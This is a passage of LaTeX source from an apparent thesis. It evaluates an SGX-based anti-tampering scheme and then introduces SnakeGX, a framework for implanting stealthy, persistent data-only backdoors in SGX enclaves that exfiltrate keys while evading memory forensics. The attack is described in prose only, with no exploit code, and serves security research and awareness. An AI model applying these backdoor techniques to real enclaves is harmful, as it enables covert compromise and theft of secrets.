	
\includegraphics[width=0.9\linewidth]{fig_c3/installation.pdf}
	\caption{Secure installation protocol between client and server.}
	\label{fig:installation}
\end{figure}


%\subsection{Boot phase}
%After the installation phase is concluded, we need a secure license key 
%loading process for a correct client execution.
%%In this implementation, we used the license key also for the encryption and 
%%decryption algorithms, but in other implementations, they might be separated.
%This is guaranteed by SGX sealing feature, after the installation is done, the 
%license key is sealed on the client machine.
%This means that only the client can access that information.
%That is, once the key is loaded inside the enclave it is protected by design.
%In this sense, SGX guarantees confidentiality and integrity to the license key.
%In this context an attacker has mainly three ways to exfiltrate the license 
%key:
%\begin{enumerate*}[label=(\roman*)]
%	\item tampering the enclave,
%	\item using a cover channel,
%	\item exploit the enclave itself.
%\end{enumerate*}
%While the first one is avoided by design, cover channel 
%attacks~\cite{mangard2017malware} 
%and purely exploitations~\cite{swami2017intel,lee2017hacking} are active 
%threats which deserve attention.
%Anyway there are techniques to mitigate cover 
%channels~\cite{zheng2017opaque,shih2017t} and
%the limiting amount of code within the enclave allows developers to avoid bugs 
%like memory corruptions.
%Also, this is only a proof of concept based on SGX.
%The anti-tampering technique described so far and this protocol can be easily 
%re-adapted to other trusted computer technologies that overcome these 
%limitations.

%\subsection{Development Framework}
%\label{ssec:integration}
%\todo{FT: remove it}
%
%In Figure~\ref{fig:lifecycleintegration}, we suggest a development framework 
%which allows a developer to deploy our technique. 
%Ideally, almost all steps we describe should be aggregated in a single 
%compilation phase in a similar fashion then other works 
%like~\cite{shih2017t,seo2017sgx}.
%%However, we opted for this solution because enclave compilation relies on a 
%%proprietary Intel compiler.
%%So, to the best of our knowledge, it is not possible to generate enclave 
%%assembly code by using other open-source compilers like LLVM or G++.
%%\todo{FT: this is not true! I have recently found some works where they 
%%developed LLMV backend for generating SGX bytecode...how do we deal with it?}.
%
%%As suggested in the previous sections, the main idea is to provide a system 
%%which allows one to include our anti-tampering even after a project is 
%%finished.
%In the first step (Figure~\ref{fig:lifecycleintegration}-I), the developer 
%declares which 
%are the critical sections in the source code by using two markers: one for the 
%beginning of the critical section, and another one for its end.
%This is the only manual operation needed.
%After the annotation phase, there is a code-to-code transformation 
%(Figure~\ref{fig:lifecycleintegration}~II) 
%which purpose is two folds:
%\begin{enumerate*}[label=(\roman*)]
%	\item parse the annotated program and check that all critical sections are 
%neither nested nor overlapped,
%	\item include the call functions to the Untrusted DLL.
%\end{enumerate*}
%In this phase, a parser analyzes all critical sections and enumerates them, 
%this will be necessary later for addressing the binary code of the encrypted 
%critical sections.
%At the third phase (Figure~\ref{fig:lifecycleintegration}~III), we employ SGX 
%Intel compiler for emitting the binary code and sign the Trusted DLL (enclave).
%While in the fourth phase (Figure~\ref{fig:lifecycleintegration}-IV), we 
%generate the final
%clients which will be deployed.
%To achieve it, at first we emit as many license keys as many machines we will 
%install the client,
%then, we extract from the program at step (III) the binary code for each 
%critical sections, 
%and, finally, we craft a set of encrypted critical sections by using all 
%license keys.
%In parallel, we save for each license key the respect block table and the 
%encrypted critical sections.
%At the end, for each client, we substitute the critical sections with the 
%encrypted ones.
%At the point, each client and the server have all information for the 
%installation phase previously described.
%The client has the signed enclave and the encrypted critical sections, while 
%the server has
%all licenses keys, block table, and the encrypted critical sections as well.
%For this phase, we used a Python script based on Radare~\cite{radare} to 
%analyzes the code
%and look for the encrypt/decrypt functions defined at step (I).
%%\todo{SJ: shall we briefly summarize why a list of attackers are not feasible 
%%with our design?}
%
%\begin{figure}[t!]
%	\centering
%	
\includegraphics[width=\linewidth]{fig_c3/lifecycleintegration}
%	\caption{Software life-cycle integration}
%	\label{fig:lifecycleintegration}
%\end{figure}

\section{Evaluation}
\label{sec:experiment}

We evaluated our technique from different perspectives.
At first, we quantify the overhead in terms of Lines of Code (LoC), execution 
time (microbenchmark), and memory required by our enclave.
Then, we discuss the impact of several security threats to the infrastructure 
proposed.
Finally, we perform an empirical evaluation of the likelihood to accomplish a 
just-in-time attack.

\subsection{Lines-of-Code Overhead}

A useful metric to measure the impact of our technique is the amount of code 
added to the original program, this is illustrated in Table~\ref{tbl:loc-stats}.
Looking at the table, it is possible to notice that the majority part of the 
code is contained in the main program ($96,5\%$).
The Untrusted and Trusted DLL, which implement our anti-tampering technique, 
require respectively $2,0\%$ and $1,5\%$ of the code.
Within the main program, each CS contains only two lines of code, one for 
calling \texttt{decrypt()} function and another for calling \texttt{encrypt()} 
function.
%These two function calls are automatically appended by using a code-to-code 
%transformation.
We remark that through our technique it is possible to protect an indefinite 
number of CSs by using always the same amount of code in the enclave.
~
\begin{table}[h]
	\center
	\caption{Number of LoC for each module}
	\label{tbl:loc-stats}
	\begin{tabular}{lrr}
		\toprule
		Module & \multicolumn{1}{l}{LoC} & \multicolumn{1}{l}{Perc.} \\
		\midrule
		Main program & 12175 & 96,5\% \\
		Untrusted DLL & 248 & 2,0\% \\
		Trusted DLL & 186 & 1,5\% \\
		\bottomrule
	\end{tabular}
\end{table}

\subsection{Microbenchmark Measurements}
In these experiments, we perform a set of microbenchmark to measure the 
overhead in time introduced by our technique.
As a use case, we measure the execution time of the CSs in our proof-of-concept 
monitoring agent (see Section~\ref{sec:implementation}).
At first, we briefly introduce the experiment setup.
Then, we measure the execution time of the CSs with and without our 
anti-tampering technique.
Finally, we measure the execution time of the CSs in case of multiple instances.
All execution times are measured in milliseconds.

\paragraph{\textbf{User-Simulator Bot}}
For performing the following tests, we developed a user-simulator bot which 
mimics the standard user activity by stroking keys and moving the cursor.
The bot is a Python script which is based on the \emph{PyWin32} library. %for 
%Windows interaction.
Since we aim at measuring the monitoring agent's performances, we designed a 
very basic user-simulator's behavior.
%and not a user's pattern, the user-simulator's behavior is designed to be very 
%simple.
The user-simulator generates keystrokes on a text program (\ie notepad) and 
randomly moves the mouse around the screen.
Keystroke frequency is around $100$ words per minute, while mouse speed is 
around $500$ pixel per second.
This bot allows us to easily repeat the experiments.

%\paragraph{\textbf{Single Instance Anti-Tampering Overhead}}
\paragraph{\textbf{Single Instance Microbenchmark}}
We measure the impact of our anti-tampering technique to the performances of 
the CSs in our proof-of-concept monitoring agent.
In this experiment, we performed $5$ exercises, each of one is composed by two 
runs, namely with and without the anti-tampering technique.
For each run, we traced the CS's execution time.
%We repeat this experiment five times, for $10$ runs in total.
The outcome of the experiment is plotted in 
Figure~\ref{fig:performanceEvaluation}. %and described in 
%Table~\ref{tbl:performance-overhead}.
In the plot, each bar represents the average elapsed time for a run and each 
pair of bars represents a single exercise. More precisely, orange bars
mean runs with the anti-tampering technique active, while blue bars mean runs 
without.
%(no call to any trusted function).
Looking at the graph, we can see that functions require on average between 
$2$ms and $2.4$ms for being executed.
It is also evident that with the anti-tampering technique the performances are 
slightly degraded.
%The delta is well marked in Table~\ref{tbl:performance-overhead}, where rows 
%represent each experiment and columns the relative runs (\ie with and without 
%AT).
On average, the delta time is $0.12$ms, with a peak of $0.34$ms for the second 
instance. 
Also, time overhead is less than $6\%$ on average, with a peak of $16.61\%$ in 
the second instance. 
This peak depends on the system status at execution time.
According to our experiments, we conclude that the performances degradation is 
negligible after the introduction of our anti-tampering system.

\begin{figure}[t]
	\centering
	\begin{subfigure}[t]{0.45\textwidth}
		
\includegraphics[width=\linewidth]{fig_c3/performanceEvaluation}
		\caption{Average response time with and without anti-tampering 
		technique}
		\label{fig:performanceEvaluation}
	\end{subfigure}
	\hfill
	\begin{subfigure}[t]{0.45\textwidth}
		
\includegraphics[width=\linewidth]{fig_c3/multiple}
		\caption{Average response time with multiple instances}
		\label{fig:multiple}
	\end{subfigure}
	\caption{Careful-Packing Evaluation.}
	\label{fig:performance2}
\end{figure}

\paragraph{\textbf{Multiple Instances}}
We empirically investigate whether our approach can be deployed over multiple 
processes at the same time.
We performed this test by running a different number of instances of our 
proof-of-concept monitoring agent and then measuring the average execution time 
of their CSs.

The outcome of the experiment is depicted in Figure~\ref{fig:multiple}.
The plot shows the average execution time of the CS on the y-axis (expressed in 
milliseconds), while 
the number of instances is indicated on the x-axis (from $10$ to $90$).
Looking at the plot, it is possible to notice that the average execution time 
grows linearly \wrt the number of instances.
The average execution time is around $5$ms in case of $10$ parallel instances, 
while it degrades to $11$ms in case of $90$. 
This means that the performances get only halved after decupling the number of 
instances; therefore, our technique results scalable.
%Moreover, this experiment underlines how our technique manged to protect 90 
%instances contemporaneously.

\subsection{Enclave Size Considerations}
%We measure the trusted container size and we estimate the number of processes 
%we can protect.
In our proof-of-concept monitoring agent, we used an enclave that occupies at 
around $300KB$.
As we stated, in our approach the enclave size does not depend by the size of 
the software to protect.
This allows us to estimate the number of processes we can protect at the same 
time.
%We therefore use the enclave used in our proof-of-concept program to resolve 
%the second point.
In a common machine SGX featured (\eg Dell XPS 13 9370), we can dedicate at 
most $128MB$ for enclaves.
If we consider the enclave used in our proof-of-concept, we can roughly 
estimate at around $400$ enclaves contemporaneously loaded that will protect 
the same number of processes.
%Moreover, we show in the previous paragraph that our technique results 
%scalable over multiple processes.

\subsection{Threat Mitigation}
We explain how our approach mitigates threats according to the attacker model 
described in Section~\ref{ssec:back-attacker}.

\paragraph{\textbf{Protection of checkers and responses.}} In our approach, the 
functions for anti-tampering mechanisms (\eg \emph{checker} and 
\emph{response}) reside in a trusted module. Since we assume trusted computing 
guarantees hardware isolation, those functions are protected by design.

\paragraph{\textbf{Protection against disarm.}}
An attacker can always disarm a function by removing its invocation.
Moreover, SGX is prone to \emph{denial-of-service attacks} due to its nature 
(see Section~\ref{ssect:back-sgx}\todo{reference}).
We protect trusted invocations by adopting the packaging tactic discussed in 
Section~\ref{sec:approach}.
The software contains parts of code which are encrypted and they need checkers 
action for being executed properly.

\paragraph{\textbf{Just-in-time Patch \& Repair Mitigation}}
%\todo{fact 1: Attackers should sync victim and adversary process  at 100\%. An 
%error implies to be detected.}
%\todo{fact 2: There exists several attempts to tamper a task scheduler (KDON, 
%Okland paper, maybe others), but they do not reach 100\% of sync, indeed, 
%these 
%attacks are more suitable for other scenarios \eg cache attacks, where it is 
%tolerate a bit of noise. Such noise brings to fact 1}
%\todo{fact 3: modern OS (\eg Linux~[cite it]), are designed to resist against 
%common task scheduler attacks}

After a \emph{decryption} function is run, the CS is plain and ready to be 
executed.
At this moment, there is a chance for the attacker to replace the code within a 
CS and restore it before the next \emph{encryption}.
This is called just-in-time patch \& repair attack.

Assuming the attacker cannot directly tamper with the task scheduler (as 
described in Section~\ref{ssec:back-attacker}), it is still possible to perform 
attacks from the user-space~\cite{5958048}.
However, those attacks are not strong enough to bypass our defense for mainly 
three reasons:
\begin{enumerate*}[label=(\roman*)]
	\item they are tailored for specific contexts (\eg single core, OS version),
	\item they aim at slowing down a process and not to achieve a perfect 
	synchronization between adversary and victim,
	\item modern OSs mount task schedulers which are designed to resist (or at 
	least mitigate) such attacks~\cite{cfslinux}.
\end{enumerate*}
To achieve an \emph{on-line} tampering, as introduced in 
Section~\ref{ssec:back-attacker}, an attacker must replace a CS code such that 
\texttt{encrypt()} and \texttt{decrypt()} functions do not notice the 
replacement.
This means that a single error will be detected by the server. 
None of the attacks from user-space can achieve such precision.
An alternative approach is to adopt virtualization to debug a process 
step-by-step at runtime, but this contradicts the assumptions of our threat 
model (\ie the original infrastructure is not altered).
We, however, try to estimate the likelihood that this attack might happen by 
performing an empirical experiment which will be described in 
Section~\ref{sec:just-in-time}.

\paragraph{\textbf{Reverse Engineering}}
An attacker may attempt to reverse the application code in order to extract the 
plain code hidden in the encrypted blocks, and then build a new executable 
which does not contain any checker.
The new executable is therefore prone to any manipulation.
This goal can be achieved by using debuggers and/or analyzers.
Even though the literature contains several anti-debugging techniques and most 
of them can be enforced by using our anti-tampering technique, we assume that 
an attacker can bypass all of them.
However, an attacker cannot debug the software inside the trusted zone, which 
is true for SGX enclaves compiled in release mode~\cite{sgxnodebug}.
The best an attacker can do is debugging the code within the untrusted memory 
region and considering the enclave as a black box.
After applying these considerations, we can state an attacker can manage to 
dump the plain code after that \emph{decryption} functions are called, and even 
make a new custom application.
However, this attack is still coherent with our threat model (see 
Section~\ref{ssec:back-attacker}) because the new application cannot work into 
the original infrastructure (\ie the heartbeat cannot work properly) and 
therefore it is useless.
For instance, in the implementation presented in 
Section~\ref{sec:implementation}, 
the monitoring agent can work properly only if the software contains all the 
functions employed by our technique along with the original CSs.
If this is not respected  (\ie by removing checkers) the application cannot 
emit a correct heartbeat,
and therefore the attack is not considered accomplished.

%We remark that the final goal of this attack is to build a software 
%checker-less which is still useful. The usefulness of this new software 
%depends 
%by the scenario in which it is deployed.
%Therefore, 
%\begin{description}
%	\item[Client with a server interaction] Thanks to \emph{response} function, 
%the heartbeat's signature is wrong and therefore the server can detect the 
%code 
%manipulation.
%	\item[Standalone program which emits output] Even in this case, thanks to 
%the \emph{response} function, an attacker can still use the program but the 
%output is wrongly signed and we can spot the attack.
%	\item[Standalone program without persisten output] Since the software does 
%not emit any result. We cannot detect any manipulation because the 
%\emph{response} function is not used to sign anything and the checkers were 
%removed. Therefore our anti-tampering technique is not suitable for this 
%scenario.
%\end{description}

%\begin{table}[]
%	\centering
%	\caption{Performance overhead table}
%	\label{tbl:performance-overhead}
%	\begin{tabular}{lrrrr}
%		\toprule
%		& \multicolumn{1}{l}{\textbf{AT off}} & \multicolumn{1}{l}{\textbf{AT 
%on}} & \multicolumn{1}{l}{\textbf{$\Delta$ (ms)}} & 
%\multicolumn{1}{l}{\textbf{$\Delta$ (\%)}} \\
%		\midrule
%		ex1 & 2.15 & 2.18 & 0.02 & 0.97\% \\
%		ex2 & 2.03 & 2.37 & 0.34 & 16.61\% \\
%		ex3 & 2.27 & 2.35 & 0.08 & 3.52\% \\
%		ex4 & 2.27 & 2.36 & 0.09 & 3.80\% \\
%		ex5 & 2.08 & 2.15 & 0.07 & 3.58\% \\
%		\midrule
%		\textbf{avg} & \textbf{2.16} & \textbf{2.28} & \textbf{0.12} & 
%\textbf{5.70\%} \\
%		\bottomrule
%	\end{tabular}
%\end{table}

\subsection{Study of Just-in-Time Patch \& Repair Attack}
\label{sec:just-in-time}
In this experiment, we investigate the likelihood of a
just-in-time patch \& repair attack in a real context.
%This experiment is not aimed to investigate all possible attack scenarios, 
%indeed, it is an empirical measurement about the synchronization of two 
%concurrent processes.
Here, the attacker's goal is to temporarily replace the bytecode within a CS 
such that the injected code is executed but the system cannot realize the 
attack.
The setup is formed by a victim process (\ie our agent) and an attacker 
process. %The interaction between attacker and victim is described in 
%Section~\ref{ssec:back-attacker}.
Also, we consider a trusted task scheduler, and that each process is executed 
on a dedicated core.
Both attacker and victim are written in C++ and developed for Windows, the 
experiments were run on a Windows 10 machine with 16GB RAM and 
Intel\textsuperscript{\textregistered} Core\textsuperscript{\texttrademark} 
i7-7500 $2,70$GHz processor.

The victim process is formed by an infinite
loop which continuously updates an internal variable through a CS. This latter 
is enforced by self-checking mechanisms.
Moreover, the victim process contains a checker to validate the status of the 
program. If the internal status is set wrongly, that will be logged.
The attacker process, instead, is a concurrent process which can edit the 
victim process at runtime. Attacker's goal is to replace the victim CS such 
that the internal variable of the victim process will contain an incongruent 
value.
We attempted the attack for $10.000$ times, but the self-checking mechanism 
managed to detect all attacks.
Therefore, we consider that this kind of attack is not practical
in case of a trusted task scheduler.

\subsection{Discussion}
\label{ssec:discussion}

%In this work, we have proposed a set of software protection mechanisms
%that combine anti-tampering techniques and trusted computing 
%(Section~\ref{sec:approach}).
%Our solution hardens both anti-tampering techniques and trusted computed 
%approaches. % (\eg packaging and \emph{denial of service}).
%We also propose solutions to overcome side issues such as secure installation 
%and boot phase.
%In the end, we have deployed our technique in a monitoring agent 
%(Section~\ref{sec:implementation}) and we have empirically shown the 
%scalability of our approach (Section~\ref{sec:experiment}).
We have shown how to implement our technique by means of a case study involving 
a monitor agent, however there are few aspects to note about the validity of 
our evaluation effort.
First, although the application code is protected, 
an attacker can still analyze and change variable values at runtime, thus 
potentially harming its normal execution.
Note that our approach could be extended in order to mitigate this issue by 
using cryptographic hashes to validate the integrity of certain critical 
variables.
%\todo{here}
Moreover, our design and implementation requires a healthy kernel, otherwise it 
would be possible to mount attacks such as the just-in-time patch and repair 
attack we discussed previously (by manipulating the scheduler). We believe  
that even with a compromised kernel mounting those attacks would require 
significant effort, but we leave a more thorough investigation for future work. 
Other aspects, such as an evaluation of applying our technique a different 
granularities (such as basic-block level), or extending protection to 
\emph{PLT}, \emph{GOT}, and \emph{exception table} are also left for future 
work.
%Also, we want to explore new techniques for deploying our solution
%at basic-block level for making the software even more secure and stable.
%Moreover, we want to extend our protection over other binary structure, such 
%as \emph{PLT}, \emph{GOT}, and \emph{exception table}. This can be done by 
%extending the heartbeat functionalities.
%Finally, we want to develop new implementations based on other trusted 
%computing techniques (\eg TPM~\cite{tpm-isoosi}).

%To sum up, to the best of our knowledge, this is the first practical and 
%scalable
%approach which attempts to extend trusted computing features over untrusted 
%zones.
%Thanks to this solution, it is possible to enforce software protection
%with a minimum amount of code within a trusted zone
%and without further monitors or software layers to the original program.
\chapter{Advanced attacks against SGX Enclaves}
\label{chp:advanced-threats} 

%The answer to this question is addressed in the paper:
%\begin{itemize}
%	\item SnakeGX: a sneaky attack against SGX Enclaves (ACNS 2021).
%\end{itemize}
%

In this chapter, we explore a new attack scenario a in which an adversary 
attempts at taking control of a TEE \emph{enclave} while hiding its presence 
from the operating system.
%In this scenario, however, the authors did not consider an OS that may employ 
%existing memory forensic techniques to identify the 
%intrusions~\cite{stancill2013check,polychronakis2011rop,kittel2015counteracting,Graziano:2016:RFA:2897845.2897894}.
%For instance, in case of external intrusion into a remote server running SGX 
%enclaves, the adversary is also interested in reducing the amount 
%of traces left; otherwise, analysts may detect the intrusion and act 
%consequently.
%This is even more critical in case the enclave secret changes and the 
%adversary has to repeat the attack many times.
More precisely, we pose the following new research question:

\emph{Can we carry out an attack against SGX enclaves without being 
	noticed by an healthy Operating System?}

%We answer this doubt with an analysis of actual memory-forensic techniques
%to detect code-reuse attacks in memory.
%Our observations show that an analyst can use current memory-forensic 
%techniques to detect code-reuse payloads outside the enclave 
%(Section~\ref{sec:background}).
%Unfortunately, it comes as no surprise one can also abuse the security
%and privacy guarantees SGX offers; a recent line of research sees
%enclaves as secure containers to conceal malicious
%code~\cite{amsterdamsgxmalwer,schwarz2017malware,sgx-rop}. Albeit
%successful, such research require the attacker to obtain a legitimate
%license from Intel~\cite{intel-license} to integrate the malicious
%code in the enclave---a strong assumption that limits the realistic
%deployment of such threats.
We answer this question with a new approach that pushes further the 
stealthiness of code-reuse attacks in non-compromised OSs.
Our intuition is to implant a permanent payload inside the target 
enclave as a backdoor, thus exploiting the SGX protections to avoid 
inspection.
%
Our strategy definitely overcomes the limitations of the state-of-the-art;
the adversary does not need to repeat the attack and we minimize the 
traces left.
%
We implement our intuition in SnakeGX, a framework to implant
data-only backdoors in legitimate enclaves. 
We build on the concept of data-only malware but extend it with a novel 
architecture to adhere to the strict requirements of SGX 
environments~\citep{vogl2014persistent}.

%Cosa proponi?
%Un attacco che è persistent, stateful e interactive
Contrary to prior one-shot attacks~\citep{biondo2018guard,lee2017hacking}, our 
backdoor acts as an additional secure function (Section~\ref{sec:enclavekit}), 
which is: 
\begin{enumerate*}[label=(\roman*)]
	\item \textbf{persistent} in the context of the enclave,
	\item \textbf{stateful} as it maintains an internal state,
	\item \textbf{interactive} with the host by means of seamless context 
	switches.
\end{enumerate*}
%Come hai fatto?
%E' persistent perchè hai usato XYZ, è stateful perchè hai usato ABC, etc
Core to this is the identification of a design flaw that
affects the Intel SGX Software Development Kit (SDK) and allows an attacker to 
trigger arbitrary code in enclaves 
(Section~\ref{sec:sgx-internal})\footnote{We reported the flawed 
	behavior to Intel, which acknowledged it.}.
%which we abuse to implant a data-only backdoor.
%Come bypassi lo stato dell'arte?
%comprometti un enclave senza variarne il comportamento; non vieni identificato 
%da un OS; etc etc 
SnakeGX facilitates the creation of versatile backdoors concealed in
enclaves that evade memory forensic analysis by inheriting all the benefits SGX 
provides.
%We do not see our work as a mere academic exercise nor as a one-way offensive 
%research.
%On the contrary, 
Our aim is to raise awareness of TEEs---and SGX in particular---and how 
attackers may abuse that, which requires the community to reason more on the 
need of monitoring systems and advanced forensic techniques for SGX.

We evaluate the properties of SnakeGX against StealthDB~\citep{stealthdb}, an
open-source project that implements an encrypted database on top of SGX 
enclaves.
In particular, StealthDB uses dynamically generated AES keys to protect the
database's fields, thus urging the need of multiple one-shot attacks.
SnakeGX exfiltrates the keys upon the verification of specific conditions 
with a minimum footprint.
Our evaluation focuses on three aspects of SnakeGX 
(Section~\ref{sec:evaluation_snakegx}).
First, we illustrate our use-case: we show how SnakeGX achieves its goals
while preserving the original functionality of the enclave.
Second, we measure and compare the stealthiness of SnakeGX against the 
state-of-the-art.
Finally, we discuss possible countermeasures.
%Our technique requires a modest amount of 56 bytes to activate arbitrary long 
%and complex attacks while removing the burning of crafting new payloads.
%\todo{how and why do I measure the stealthiness of my attack in terms of 
%memory allocated? Give an hint}
%SnakeGX facilitates the creation of our attack, which requires a
%modest amount of 56 bytes to activate arbitrary long and complex
%payloads.
%In addition, SnakeGX's persistency, statefulness, and interactiveness
%properties preserve the original functionality of the enclave
%(Section~\ref{sec:evaluation_snakegx}).

In summary, we make the following contributions:
\begin{itemize}
	\item We propose SnakeGX, a framework built around an Intel SGX 
	SDK design flaw (Section~\ref{sec:sgx-internal}), and a novel architecture
	designed to create persistent, stateful, and interactive data-only
	malware for SGX (Section~\ref{sec:enclavekit}).
	\item We demonstrate the feasibility of SnakeGX on a real-world
	open source project\footnote{SnakeGX's source code is available 
		at~\url{https://github.com/tregua87/snakegx}.}.
	\item We measure and compare the attack footprint with current SGX 
	state-of-the-art techniques (Section~\ref{sec:evaluation_snakegx}).
\end{itemize}


\section{Threat Model and Assumptions}
\label{sec:threat-model_snakegx}

In this section, we first describe our threat model.
Then, we perform a preliminary analysis to measure the widespread of our 
assumptions over real SGX open-source projects.

\paragraph{Threat Model.}
One of the differences between SnakeGX and the previous one-shot code-reuse 
works is in the threat model.
Advanced code-reuse techniques require an unprivileged 
attacker~\citep{biondo2018guard}.
However, a non-compromised host can identify the presence of an adversary
in the system memory (Section~\ref{ssec:sgx-control-flow-attacks}).
Therefore, we have to consider three players in our scenarios: the attacker, 
the victim enclave, and the host.
%Since we focus on code-reuse attacks, we rule out other techniques such as 
%micro-architectural or side-channel ones.
Below, we list their requirements, respectively.

%The payload can pursue different goals such as exfiltrating private 
%information 
%(\eg password saved in the enclave) or altering the behaviour of the secure 
%functions (\eg tampering with crypto keys in an enclave).
%Its activation, instead, leaves a minimal and less intrusive footprint.

\vspace{0.5cm}
\textbf{Attacker Capabilities.}
In our scenario, the attacker is highly motivated and has the following 
assumptions:

\begin{itemize}
	\item \textbf{The enclave contains a memory corruption vulnerability.}  
	The adversary is aware of a memory corruption error (\eg a buffer overflow) 
	in the target enclave.
	This error can be exploited to take control of the enclave itself.
	Having a memory-corruption is an assumption already taken by similar 
	works~\citep{biondo2018guard,lee2017hacking}.
	This is even more likely in projects that use SGX as a sub-system 
	container~\citep{baumann2015shielding,203255,seo2017sgx,199364}.
	Such projects host out-of-the-box software and, therefore, enclaves inherit 
	their vulnerabilities.
	\item \textbf{A code-reuse technique.} 
	SnakeGX does not require any specific code-reuse techniques (\eg ROP, 
	JOP, BROP, SROP) as long as this enables the attacker to take control of 
	the enclave execution. For the sake of simplicity, we use 
	the term \emph{chain} to indicate a generic code-reuse payload 
	(\eg a ROP-chain).
	\item \textbf{Knowledge of victim enclave memory layout.} 
	The attacker can infer the memory layout by inspecting the victim 
	address-space.
	It is also possible to leak memory information from within the enclave, as
	also assumed by \cite{biondo2018guard}.
	\item \textbf{Adversary Location.} In our scenario, the adversary 
	resides in user-space. SnakeGX will reduce the adversary
	footprint, thus evading standard memory forensic 	
	techniques~\citep{stancill2013check,polychronakis2011rop,kittel2015counteracting,Graziano:2016:RFA:2897845.2897894},
	whose effectiveness relies on the amount of traces left in memory 
	(see Section~\ref{ssec:sgx-control-flow-attacks}).
\end{itemize}

\textbf{Enclaves Capabilities.}
These are the assumptions for the enclave:

\begin{itemize}
	\item \textbf{Legitimate enclaves.} 
	The system contains one or more running enclaves.
	It is possible to exploit enclaves based on both SGX $1.0$ or $2.0$.
	\item \textbf{Intel SGX SDK usage.} 
	The victim enclave should be implemented by using the standard Intel SGX 
	Software Development Kit (SDK), we tested our approach with all the SDK 
